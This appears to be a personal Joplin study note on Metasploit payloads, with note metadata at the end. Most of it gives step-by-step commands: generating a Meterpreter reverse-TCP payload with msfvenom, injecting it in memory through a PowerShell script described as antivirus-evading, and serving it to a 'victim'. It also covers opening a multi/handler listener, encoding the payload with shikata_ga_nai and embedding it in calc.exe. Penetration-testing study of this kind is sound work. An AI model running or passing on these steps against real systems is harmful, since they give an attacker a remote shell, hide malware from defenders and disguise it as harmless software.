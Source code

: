 MSFVenom

# <ins>Use In-memory Virtual Allocation and execute payload within the allocated memory</ins>

This is non-detectable by the AV; Uses the in-memory injection

- Find the code in /root/Avevade.ps1
    
- Generate the payload:
    
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
- Paste the payload into the variable 'sc' inside 'Avevade.ps1'
    
- Transfer the file to the victim -
    
    - python2 -m SimpleHTTPServer 80
- Set the execution policy to unrestricted:
    
    - Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
- On Kali, open handler (See below)
    

## <ins>Use the Meterpreter Listener</ins>

Open the metasploit console and use multihandler

> msfconsole
> 
> use multi/handler

Set the payload to what you want, and set the options

> set payload windows/meterpreter/reverse_tcp
> 
> set LPORT 7777
> 
> set LHOST &lt;Kali IP&gt;
> 
> exploit OR run

# Do Encrypted Payload

Usual encoding is x86/shikata\_ga\_nai - very common till AV can detect

> ```
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
> ```

Embed in a non-malicious file, like calc.exe (can use notepad.exe in windows-binaries)

id: f1cbbe07c0c44adb91ce6010b852b46f
parent_id: c26fa1723bb34bf18d91cd4b533bf7b3
created_time: 2022-01-20T02:10:21.303Z
updated_time: 2022-01-31T04:34:56.867Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-20T02:10:21.303Z
user_updated_time: 2022-01-31T04:34:56.867Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1